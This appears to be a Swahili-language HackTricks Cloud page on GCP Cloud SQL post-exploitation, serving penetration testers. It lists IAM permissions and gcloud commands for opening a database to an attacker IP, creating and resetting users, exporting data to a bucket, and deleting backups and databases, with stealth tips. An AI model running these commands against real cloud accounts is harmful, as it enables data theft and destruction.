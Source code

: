 # GCP - Uchimbaji wa Baada ya Kudukuliwa kwa Cloud SQL

{% hint style="success" %}
Jifunze na zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Kwa habari zaidi kuhusu Cloud SQL angalia:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Kuunganisha kwenye mifumo ya database unahitaji **tu kupata upatikanaji wa bandari ya database** na kujua **jina la mtumiaji** na **nywila**, hakuna mahitaji ya IAM. Hivyo, njia rahisi ya kupata upatikanaji, ikidhani kwamba database ina anwani ya IP ya umma, ni kusasisha mitandao iliyoruhusiwa na **kuruhusu anwani yako ya IP kupata**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Pia niwezekana kutumia **`--no-backup`** kudhoofisha nakala rudufu za database.

Kwa kuwa hizi ni mahitaji sijui kabisa ni ruhusa gani **`cloudsql.instances.connect`** na **`cloudsql.instances.login`** zinahitajika. Ikiwa unajua, tuma PR!

### `cloudsql.users.list`

Pata **orodha ya watumiaji wote** wa database:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Kibali hiki huruhusu **kuunda mtumiaji mpya ndani** ya database:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Haki hii inaruhusu **kuboresha mtumiaji ndani** ya database. Kwa mfano, unaweza kubadilisha nenosiri lake:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Nakala za akiba zinaweza kuwa na **habari nyeti za zamani**, hivyo ni muhimu kuzichunguza.\
**Rejesha nakala rudufu** ndani ya database:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Kufanya hivyo kwa njia ya siri zaidi ni vyema kuunda kipengee kipya cha SQL na kurejesha data hapo badala ya kwenye mabadiliko yanayoendelea ya hivi sasa.

### `cloudsql.backupRuns.delete`

Ruhusa hii inaruhusu kufuta nakala za akiba:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Fanya database** kwa Kikombe cha Uhifadhi wa Wingu ili uweze kuiaccess kutoka hapo:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Ingiza** (ficha) **database** kutoka kwa Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Futa database kutoka kwa kifaa cha db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Jifunze na zoea AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoea GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
